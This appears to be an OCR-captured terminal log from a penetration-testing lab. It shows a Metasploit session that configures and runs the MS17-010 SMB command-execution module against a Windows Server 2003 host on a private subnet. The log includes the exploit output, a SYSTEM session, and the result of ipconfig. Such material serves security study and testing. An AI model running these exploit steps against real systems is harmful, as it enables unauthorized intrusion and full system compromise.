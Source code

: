 ```bash
   SERVICE_DESCRIPTION                                       no        Service description to to be used on target for pretty listi
                                                                       ng
   SERVICE_DISPLAY_NAME                                      no        The service display name
   SERVICE_NAME                                              no        The service name
   SMBDomain             .                                   no        The Windows domain to use for authentication
   SMBPass                                                   no        The password for the specified username
   SMBSHARE              C$                                  yes       The name of a writeable share on the server
   SMBUser                                                   no        The username to authenticate as
   THREADS               1                                   yes       The number of concurrent threads (max one per host)
   WINPATH               WINDOWS                             yes       The name of the remote Windows directory

msf6 auxiliary(admin/smb/ms17_010_command) > set rhosts 192.168.52.141
rhosts => 192.168.52.141
msf6 auxiliary(admin/smb/ms17_010_command) > set command ipconfig
command => ipconfig
msf6 auxiliary(admin/smb/ms17_010_command) > run

[*] 192.168.52.141:445    - Target OS: Windows Server 2003 3790
[*] 192.168.52.141:445    - Filling barrel with fish... done
[*] 192.168.52.141:445    - <---------------- | Entering Danger Zone | ---------------->
[*] 192.168.52.141:445    -     [*] Preparing dynamite...
[*] 192.168.52.141:445    -             Trying stick 1 (x64)...Miss
[*] 192.168.52.141:445    -             [*] Trying stick 2 (x86)...Boom!
[*] 192.168.52.141:445    -     [+] Successfully Leaked Transaction!
[*] 192.168.52.141:445    -     [+] Successfully caught Fish-in-a-barrel
[*] 192.168.52.141:445    - <---------------- | Leaving Danger Zone | ---------------->
[*] 192.168.52.141:445    - Reading from CONNECTION struct at: 0x87a26cc8
[*] 192.168.52.141:445    - Built a write-what-where primitive...
[+] 192.168.52.141:445    - Overwrite complete... SYSTEM session obtained!
[+] 192.168.52.141:445    - Service start timed out, OK if running a command or non-service executable...
[*] 192.168.52.141:445    - Getting the command output...
[*] 192.168.52.141:445    - Executing cleanup...
[+] 192.168.52.141:445    - Cleanup was successful
[+] 192.168.52.141:445    - Command completed successfully!
[*] 192.168.52.141:445    - Output for "ipconfig":


Windows IP Configuration


Ethernet adapter Local Area Connection:

   Connection-specific DNS Suffix  . : 
   IP Address. . . . . . . . . . . . : 192.168.52.141
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.52.2


[*] 192.168.52.141:445    - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
